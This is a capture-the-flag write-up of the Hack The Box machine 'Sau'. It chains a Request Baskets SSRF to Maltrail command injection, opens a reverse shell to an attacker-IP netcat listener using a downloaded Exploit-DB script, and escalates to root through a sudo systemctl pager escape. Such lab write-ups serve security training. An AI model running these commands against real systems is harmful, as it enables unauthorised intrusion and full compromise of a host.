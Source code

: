 ```yaml
---
layout: single
title: Sau - Hack The Box
excerpt: ""
date: 2024-09-28
classes: wide
header:
  teaser: /blog/assets/images/htb-writeup-writeup/
  teaser_home_page: true
  icon: /blog/assets/images/hackthebox.webp
categories:
  - WriteUp
---
```



## Synopsis

Sau is an easy Linux machine featuring a vulnerable instance of **Request Baskets** (CVE-2023-27163), which allows **Server-Side Request Forgery (SSRF)**. Leveraging this vulnerability, we gain access to a **Maltrail** instance vulnerable to **Unauthenticated OS Command Injection**, enabling a reverse shell as the `puma` user. A **sudo misconfiguration** is then exploited to escalate privileges to root.

## Skills Required
- Web enumeration  
- Linux fundamentals  

## Skills Learned
- Exploiting SSRF vulnerabilities  
- Command injection  
- Sudo exploitation  

## Enumeration

### Nmap Scan

ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.224 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.10.11.224

The scan reveals:
- **Port 22:** OpenSSH  
- **Port 80:** Filtered  
- **Port 55555:** HTTP service (Request Baskets)  


## Exploitation

### Request Baskets SSRF (CVE-2023-27163)
The Request Baskets instance (version 1.2.1) is vulnerable to SSRF via the `/api/baskets/{name}` endpoint. This allows us to enumerate internal services.

1. Create a new basket and configure it to forward requests to our machine:

   nc -lnvp 80
   Set the **Forward URL** to `http://<attacker-IP>` and enable **Proxy Response** and **Expand Forward Path**.

2. Access the basket and observe the response:
   curl http://10.10.11.224:55555/<basket-id>

3. Forward requests to `http://127.0.0.1:80` to discover the **Maltrail** instance running internally.


### Maltrail Command Injection
The Maltrail instance (version 0.53) is vulnerable to **Unauthenticated OS Command Injection**.

1. Download the exploit:
   curl -s https://www.exploit-db.com/download/51676 > exploit.py

2. Start a Netcat listener:
   nc -lnvp 4444

3. Execute the exploit:
   python3 exploit.py <attacker-IP> 4444 http://10.10.11.224:55555/<basket-id>

4. Gain a reverse shell as the `puma` user:
   script /dev/null -c bash
   # Ctrl + z
   stty -raw echo; fg
   # Enter (Return) x2

5. Retrieve the user flag:
   cat /home/puma/user.txt

## Privilege Escalation

### Sudo Misconfiguration
The `puma` user can run `/usr/bin/systemctl status trail.service` as root without a password. This, combined with a vulnerable **Systemd version (245)**, allows privilege escalation.

1. Check sudo permissions:
   sudo -l

2. Exploit the Systemd vulnerability (CVE-2023-26604):
   sudo /usr/bin/systemctl status trail.service

3. When prompted, execute:
   !/bin/bash

4. Gain a root shell and retrieve the root flag:
   cat /root/root.txt

## Conclusion

Sau demonstrates the risks of **SSRF** and **command injection** vulnerabilities. By exploiting these and leveraging a **sudo misconfiguration**, we escalate privileges from a low-privileged user to root. This box highlights the importance of secure configurations and timely patching.

This writeup is concise, structured, and highlights the key steps and vulnerabilities exploited during the penetration test.